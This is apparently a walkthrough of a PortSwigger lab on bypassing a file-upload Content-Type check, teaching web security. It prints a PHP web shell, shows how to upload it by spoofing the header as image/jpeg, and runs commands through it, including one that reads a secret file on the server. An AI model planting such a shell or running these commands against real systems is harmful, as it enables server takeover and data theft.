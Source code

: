## Welcome, my friend. Today we will start the [2. File Upload lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass) in ```portswigger```

# Explain this Scenario:

## Scalable Web Shell

```
<?php echo system($_GET['command']); ?>
```

#### This code is an example of a ```"web shell"```, a type of malware that is uploaded to servers through security vulnerabilities.
#### The code executes operating system commands on the server. The command you want to execute is sent through the ```command``` parameter in the query.
#### For example, if you send the following query:


```
GET /example/exploit.php?command=id HTTP/1.1
```

### The ```id command``` will be executed on the server, which displays information about the user the server is running as.


<br>

#### When submitting an HTML form containing files, the browser typically uses the multipart/form-data content type to send binary data such as images or PDF documents.
#### Example of an HTTP request to send an image with a description and username:


```
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpg"
Content-Type: image/jpeg

[...binary content of example.jpg...]

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="description"

This is an interesting description of my image.

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="username"

wiener
---------------------------012345678901234567890123456--
```

#### If the site only expects certain file types such as ```image/jpeg```, there could be a validation error if the actual file content is not checked. For example, you may change the ```Content-Type``` header to an image type, when in reality the file may be malicious ```PHP code```.


-----------


# Let's play this lab:

![image](https://github.com/user-attachments/assets/2b8bbbc7-6ad1-41cf-ada7-49b525cb80eb)


#### Let's log in to your own account using the following credentials: ```wiener:peter```

![image](https://github.com/user-attachments/assets/1b7229a1-3813-48f9-b6f0-0dcc0d603e78)


#### Let's create a php malicious payload in file ```tor1.php```:

### within tor.php:

```
<?php
    echo system($_GET["tor"]);
?>
```

![image](https://github.com/user-attachments/assets/295203de-7776-489e-b02f-df7db4e826ee)

### Now, Let's upload this malicious payload to server.

![image](https://github.com/user-attachments/assets/e1fa4858-51f0-4b90-a01a-4e7a3293fd1c)

#### Hmm ,Sorry! REALY?

### ok Let's open the burp tool to explore what happen.


![image](https://github.com/user-attachments/assets/298a289d-82c8-45e0-b675-9a8a4a4bda21)

#### Well, The problem was due to the ```Content-Type: application/x-php``` , we change to:

```
Content-Type: image/jpeg
```

![image](https://github.com/user-attachments/assets/0ac3949f-9d11-4f39-9228-c80be0275940)

![image](https://github.com/user-attachments/assets/bf4abe63-d67c-4089-b4b1-369628adb855)

#### WOW! The file has been uploaded successfully.

### From Task 1, we explore that our file is within this path ```/files/avatars/file_name?parameter=command``` like this:

```
https://0a3a00ad03921d72824516a00044003b.web-security-academy.net/files/avatars/tor.php?tor=id
```

![image](https://github.com/user-attachments/assets/32eb46a6-8b08-44a0-8376-92d1bd146f76)

#### Ok this task requrie reach to /home/carlos/secret file.

```
/files/avatars/tor.php?tor=cat /home/carlos/secret
```

![image](https://github.com/user-attachments/assets/152c9789-1f5a-40d9-8beb-5a4a5d6ca5b9)


#### alert: this secret is douple, copy single secret only.
### Let's Submit this secret using the button provided in the lab banner. 

![image](https://github.com/user-attachments/assets/480e146d-455e-46cc-a485-545fc8909d77)

## Then ...

![image](https://github.com/user-attachments/assets/9646e54b-a0bf-4b91-89d1-a8b38cefd2ad)


### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/95f1297d-f437-4743-84db-6707975f81ba" >
</p>



















